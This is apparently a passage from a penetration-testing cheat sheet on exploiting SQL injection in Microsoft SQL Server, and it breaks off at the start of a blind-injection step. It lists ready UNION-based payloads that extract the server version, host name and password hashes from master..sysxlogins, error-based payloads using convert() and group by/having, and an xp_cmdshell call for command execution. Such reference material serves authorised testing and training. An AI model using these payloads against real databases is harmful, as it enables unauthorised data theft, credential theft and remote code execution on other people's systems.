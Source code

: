     ```
    ID=1002' UNION ALL SELECT NULL,+ISNULL(CAST(@@VERSION AS NVARCHAR(4000)),CHAR(32)),NULL,NULL--
    ID=1002' UNION ALL SELECT NULL,+ISNULL(CAST(HOST_NAME() AS NVARCHAR(4000)),CHAR(32)),NULL,NULL--
    ID=1002' UNION ALL SELECT NULL,+ISNULL(CAST(INJECTED_FUNCTION AS NVARCHAR(4000)),CHAR(32)),NULL,NULL--

    DB_NAME()
    user_name();
    system_user
    ```
*   Get hashes

    ```
    1002' UNION ALL SELECT NULL,CHAR(113)+ISNULL(CAST(name AS NVARCHAR(4000)),CHAR(32))+CHAR(98)+ISNULL(CAST(master.dbo.fn_varbintohexstr(password) AS NVARCHAR(4000)),CHAR(32))+CHAR(113),NULL,NULL FROM master..sysxlogins--
    ```

## MsSql error-based Exploitation

* Group by and **having** can be used to specify a search condition for a group and aggregate the result.
  * Sending **' having 1=1--** should produce **column 'table.column1' is invalid**
  *
    1. Sending **' group by table.column1 having 1=1--** should produce **column 'table.column2' is invalid**
  *
    1. Sending **' group by table.column1,table.column2 having 1=1--** should end up generating no error when you specify all the columns.
* You can generate error and get debug info:
  * Sending **convert(int, @@version)--** should trigger the error **failed when convering SQL Server...**\*
*   Other payloads:

    ```
    convert(int,user_name())--
    convert(int, @@db_name())--
    ```
* If the DB runs as SA, you can run **XP\_CMDSHELL** to get code execution.
*   Useful queries:

    ```
    SELECT Distinct TABLE_NAME FROM information_schema.TABLES
    exec master.dbo.xp_cmdshell 'CMD'
    ```

## MsSql blind exploitation

*   For numeric contexts (look for differences):

    ```
    and 1=1
    and 1=2
    ```
*   Once we found the injection, we can leak data from the DB by guessing one character at a time as follows:

